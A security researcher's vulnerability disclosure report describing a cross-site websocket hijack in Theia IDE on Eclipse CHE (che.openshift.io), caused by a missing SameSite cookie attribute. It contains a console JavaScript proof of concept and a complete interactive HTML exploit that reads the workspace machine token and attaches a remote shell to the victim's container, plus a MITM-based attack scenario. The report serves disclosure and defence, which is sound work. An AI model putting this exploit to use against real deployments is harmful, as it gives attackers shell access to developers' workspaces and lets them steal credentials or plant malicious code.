





# CSWSH-THEIA-2020

- Report target: Eclipse CHE deployment available on che.openshift.io
- Vulnerability type: Cross-site websocket hijack
- Discovery date: 2020-04-08
- Author: Robin Duda (codingchili@github)

# Description

This report concerns a cross-site websocket hijack in Theia IDE due to missing security constraints on the /service websocket endpoint. This vulnerability allows an attacker to access the workspace API's, which includes spawning a terminal in the container running the Theia IDE. To explit this vulnerability an attacker needs to know the endpoint to the Theia server, depending on deployment this might be as simple as `localhost` or a public domain. In the case of `che.openshift.io` the websocket endpoint is accessible through a randomly generated DNS ingress adress.

Read more about cross-site websocket hijacking here: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking

This vulnerability cannot be reproduced in all deployments of Eclipse CHE as its dependent on the authentication mechanism. When using browser-based cookies for example with the SameSite cookie attribute properly configured, requests to establish a websocket from third-party domains will be unsuccessful (if cookie authentication is properly implemented for the deployment). The deployment on `che.openshift.io` uses cookies for authentication but does not set the SameSite attribute, which opens up for cross-site attacks.

Read more about the SameSite cookie attribute here: https://portswigger.net/web-security/csrf/samesite-cookies

# Scenario

On the `che.openshift.io` platform, the websocket endpoint on `/services` is accessible through the openshift clusters ingress address. This address cannot (to the extent of my knowledge) be deduced without performing a man-in-the-middle attack. Depending on how Eclipse CHE is deployed the URL endpoint of the websocket endpoint may be easily guessable.

An example attack scenario on the `che.openshift.io` platform, could occur as follows

1) An attacker retrieves the address of the ingress router of the openshift cluster. This can be done using a passive man-in-the-middle attack to sniff DNS queries - which often are sent in plaintext or to sniff SNI records (target URL) of TLS connections.

More information on man-in-the-middle attacks here: https://en.wikipedia.org/wiki/Man-in-the-middle_attack

There is a test here: https://www.cloudflare.com/ssl/encrypted-sni/ to determine if the current settings for a browser uses secure DNS or leaks SNI information for reference.

2) The attacker injects JavaScript into the victims browser, this can be done if the victim visits a site that is not served over HTTPS if MITM is already established. Other means of having the victim run the payload could be through sending an email with a link to a third-party domain which executes a script that connects to the `/services` websocket endpoint of the ingress.

3) The attacker has full access to the victims workspace through the `/services` endpoint, which includes full filesystem access of the container running Eclipse CHE. The attacker can then using the workspace API's spawn a new terminal for shell access as well, reading and modifying anything contained within the workspace. The attacker may then escape the container environment by stealing GIT credentials or embedding vulnerabilities in the source code, by including third-party dependencies etc.

This is a high-severity vulnerability as it completely allows the workspace to get compromised, it is however not trivial to exploit as it requires (to the extent of my knowledge at time of writing) a man-in-the-middle attack to deduce the address of the ingress router.

# Proof of concept

There are two proof-of-concepts, one minimal to verify that the vulnerability and another interactive which creates and attaches a new terminal to the vulnerable environment. Both versions of the proof-of-concept requires the routers ingress address to be known in advance.

## Simple - using chrome developer tools

1) open Google chrome and browse to `che.openshift.io`.
2) open Chrome developer tools using the menu -> more tools -> developer tools or press Alt+Shift+I. 
3) browse to `che.openshift.io`, authenticate using any provider. (I choose GitHub)
4) go to the network tab in the developer tools, filter out websocket connections with the "WS" button.
5) right click on the connection to "/services" and copy the url. 
    - (example: wss://routen0vpcnaq-codingchili-che.b542.starter-us-east-2a.openshiftapps.com/services)
6) open a new tab and browse to `about:blank` and open the developer tools again.
7) open the console tab and paste the following JavaScript

```javascript
let ws = new WebSocket("wss://routen0vpcnaq-codingchili-che.b542.starter-us-east-2a.openshiftapps.com/services");

ws.onopen = () => {
 ws.send(JSON.stringify({kind: "open", id: "1", path: "/services/shell-terminal"}));
}

ws.onmessage = (e) => {
  console.log(e.data);
}

```

Replace the url with the one copied from the developer tools and press enter.
After a few seconds the following should be printed to the console 

```javascript
{"kind":"ready","id":"1"}
```

Which indicates that the connection was successful from a third-party domain and that the `/services` endpoint accepted the request and opened the shell-terminal API's for JSON RPC invocations. The JavaScript code works on any domain that doesn't enable any additional cross-site features throgh the use of HTML headers.

## Extended - interactive which drops to shell

The PoC is interactive and will gain shell access over the /services websocket.

Retrieve the websocket domain for the /services endpoint and type "/connect <domain>" in the PoC.

1) deploy the attached proof of concept on a third-party domain, locally (python -m http.server) or just open the .html file. 
2) browse to che.openshift.io authenticate, and open a workspace in eclipse CHE.
3) follow step 1-5 of the simple reproducer to retrieve the ingress router address.
4) open the .html page and enter the following commands in the input box:
4) type `/connect wss://routen0vpcnaq-codingchili-che.b542.starter-us-east-2a.openshiftapps.com/services`
5) type `/attach maven` to attach to a container, this only seems to work for maven/theia-ide*.
6) a third-party domain now has full shell access to the workspace
	- try to run some unix commands, ls, pwd, curl etc.

The domain can be retrieved using developer tools in chrome, started before loading the theia workspace or pressing F5, check the "Network" tab then filter on websockets to find the one connecting to /services and copy the domain name and paste into the exploit. The domain will look similar to "routecoobb1ln-<username>-che.b542.<region>.openshiftapps.com".

When the websocket is connected it'll print the message "use /attach to attach to a terminal", type "/attach maven" or use the dynamic theia-ide* in the exploit to attach the terminal to a container. If successful you'll see the message "terminal attached successfully" and "bash-4.4 /projects $", type "ls -l" or any other unix command to have it run in the server workspace.

Make sure that the third-party domain hosting the exploit code doesn't enable any x-site security features which could block the websocket connection. Sometimes it takes a few seconds for the websocket to connect. The PoC is tested in Google Chrome. 

The HTML file with interactive exploit to be hosted,

```html
<html>
<head>
	<!-- title, skeleton.css etc.. -->
	<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/skeleton/2.0.4/skeleton.min.css">
	<style>
		#header {
			text-align: center;
		}
		#output {
			border: 1px dashed #00000088;
			width: 80%;
			max-width: 700px;
			height: 60vh;
			max-height: 60vh;
			margin: auto;
			display: block;
			overflow-x: hidden;
			overflow-y: scroll;
		}
		#input {
			width: 80%;
			max-width: 700px;
			margin: auto;
			margin-top: 16px;
			display: block;
		}
		pre {
			white-space: pre-line;
			word-break: break-all;
			margin-top: 8px;
    		margin-bottom: 0;
    		margin-right: 16px;
    		margin-left: 16px;
		}
	</style>
</head>
<body>
	<h2 id="header">Eclipse CHE-CSWSH-POC</h2>

	<div id="output">
		<!-- generated -->
	</div>
	<input id="input" type="text" autofocus></input>

	<script>
	const SERVICE_WORKSPACE = 13;
	const SERVICE_ENVIRONMENT = 47;
	const READY = 'ready';
	const CHANNELS = [
		{"kind":"open","id":SERVICE_WORKSPACE,"path":"/services/che-workspace-service"},
		{"kind": 'open', "id": SERVICE_ENVIRONMENT, "path": "/services/envs"}
	];

	let server = {};
	let handlers = {};
	let id = 100;
	wsAttach = false;

	function send(message, callback) {
		message.content.id = ++id;
		message.content = JSON.stringify(message.content);

		if (!message.kind) {
			message.kind = 'data';
		}

		handlers[id] = callback;
		message.jsonrpc = "2.0"
		ws.send(JSON.stringify(message));
	}

	function getEnvironmentProperty(property) {
		return {
			"id": SERVICE_ENVIRONMENT,"content": {
				method:"getValue",
				"params": property
			}
		};
	}

	function getWorkspaceProperty(property) {
		return {
			"id": SERVICE_WORKSPACE,"content": {
				method: property,
				"params": null
			}
		};
	}

	function getContainerList(callback) {
		send(getWorkspaceProperty('getContainerList'), (msg) => {
			let containers = msg.result.map(server => server.name).join(', ');
			output(`available containers [${containers}]\n\nUse "/attach <name>" to attach a terminal.`);
			callback(msg.result);
		});
	}

	function getTerminalServer(callback) {
		send(getWorkspaceProperty('findTerminalServer'), (msg) => {
			output(`terminal server url "${msg.result.url}"`);
			callback(msg.result.url);
		});
	}

	function getWorkspaceId(callback) {
		send(getEnvironmentProperty("CHE_WORKSPACE_ID"), msg => {
			output(`${msg.result.name}=${msg.result.value}`);
			callback(msg.result.value);
		});
	}

	function getMachineToken(callback) {
		send(getEnvironmentProperty("CHE_MACHINE_TOKEN"), msg => {
			output(`${msg.result.name}=${msg.result.value}`);
			callback(msg.result.value);
		});
	}

	function has(object, keys) {
		let has = true;
		for (let key of keys) {
			has &= (key in object);
		}
		return has;
	}

	function connect(domain) {
		window.ws = new WebSocket(`wss://${domain}/services`);

		ws.onmessage = (e) => {
			let msg = JSON.parse(e.data);
			if (msg.content) {
				msg = JSON.parse(msg.content);
				if (msg.params) {
					msg = msg.params;
				}
			}
			output(JSON.stringify(msg));

			handlers[SERVICE_ENVIRONMENT] = (msg) => {
				if (msg.kind == READY) {
					getWorkspaceId(id => server["workspaceId"] = id);
					getTerminalServer(url => server["url"] = url);
					getContainerList(list => server["containers"] = list);
					getMachineToken(token => server["token"] = token);
				}
			}

			if (handlers[msg.id]) {
				handlers[msg.id](msg);
			}
		};
		ws.onerror = (e) => {output(`Failed to connect to ${domain}, make sure che is available.`)};
		ws.onopen = () => {
			for (let channel of CHANNELS) {
				ws.send(JSON.stringify(channel));
			}
		};
	}

	function attach(server) {
		if (has(server, ['workspaceId', 'url', 'container', 'token'])) {
			let connectUrl = `${server.url}/connect?token=${server.token}`;
			output(`attaching to container ${server.container} on terminal server "${server.url}"..`);
	 		let wsConnect = new WebSocket(connectUrl);

			wsConnect.onopen = () => {
				wsConnect.send(JSON.stringify({
						jsonrpc:"2.0",
						id: 0,
						method:"create",
						params: {
							identifier: {
								machineName: server.container,
								workspaceId: server.workspaceId
							},
							cmd:[],
							cwd:"file:///projects",
							cols:107,
							rows:25,
							tty:true
						}
					})
				);
			}
			wsConnect.onmessage = (e) => {
				output(e.data);
				let msg = JSON.parse(e.data);

				if (msg.result) {
					let attachUrl = `${server.url}/attach/${msg.result}?token=${server.token}`;
					window.wsAttach = new WebSocket(attachUrl);

					wsAttach.onopen = () => {
						output(`terminal attached successfully.`);
					};
					wsAttach.onmessage = (e) => {
						output(e.data)
					};	
					init = true;
				}
			};
		} else {
			output(`failed to attach, make sure to connect first. ${JSON.stringify(server)}`);
		}
	}

	function output(text) {
		let output = document.getElementById('output');
		let line = document.createElement('pre');
		line.innerHTML = text.replace(/\u001b\[.*?(m|6n)/g, '');
		output.appendChild(line);
		output.scrollTop = output.scrollHeight;
	}

	let con = document.getElementById("input");

	con.addEventListener('keypress', (e) => {
		if (e.key == 'Enter') {
			let input = con.value.split(' ');
			switch (input[0]) {
				case "/connect": {
					output(`connecting to ${input[1]}..`);
					delete server.container; // reset container selection.
					connect(input[1]);
				}
				break;
				case "/attach": {
					output(`attaching to ${input[1]}..`);
					server.container = input[1];
					attach(server);
				}
				break;
				default: {
					if (wsAttach) {
						wsAttach.send(`${con.value}\n`);
					} else {
						output('not connected, please /connect and /attach first.');
					}
				}
			}
			con.value = '';
		}
	});
	con.focus();

	output(`1) login to a CHE instance on https://che.openshift.io/ and note the domain of the websocket.\n
		    2) type "/connect [domain]" to exploit cross-site WebSocket hijacking in Theia.\n
			3) type "/attach [container]" to attach the shell of the given container.\n`);
	output(`example domain format routecoobb1ln-codingchili-che.b542.starter-us-east-2a.openshiftapps.com`);
	</script>
</body>
</html>
```

# Screenshots

## Proof-of-Concept setup


Retrieving the ingress address of the router for the proof-of-concept. (An attacker would do this through MITM or another means of discovering the router ingress address).


An example of how DNS queries often are sent in plaintext and observed by an attacker using Wireshark.

## Proof-of-Concept: Simple


Using devtools console to check connection from third-party domain.

## Proof-of-Concept: Extended

Interactive proof-of-concept using API's to get shell access to container.



Using the interactive exploit to connect to the websocket over the ingress router.



Output upon successful connection, the available containers are listed using workspace API's.



Connection to a workspace and shell access successful.



Running basic unix commands inside the container.

# Summary

Using cross-site websocket connections a script hosted on a third-party domain is able to get full shell access to workspace environments. This vulnerability occurs in environments which hosts Eclipse CHE with cookie or basic authentication which the browser will forward to the target domain from untrusted origins. Servers using the SameSite cookie attribute can successfully mitigate this attack.

This vulnerability exists in Theia, which doesn't implement any authentication at all (as a design goal) but also does not ensure that the websocket endpoint is available cross-site. Theia recommends placing a proxy in front of the application to secure it, which is insufficient as the websocket endpoint will be vulnerable to cross-site attacks.

This design flaw is then carried onto Eclipse CHE and depending on the authentication method in use may be vulnerable. The vulnerability has a high severity but is harder to exploit as it (currently) requires an attacker to perform a passive MITM attack to get the router ingress address.
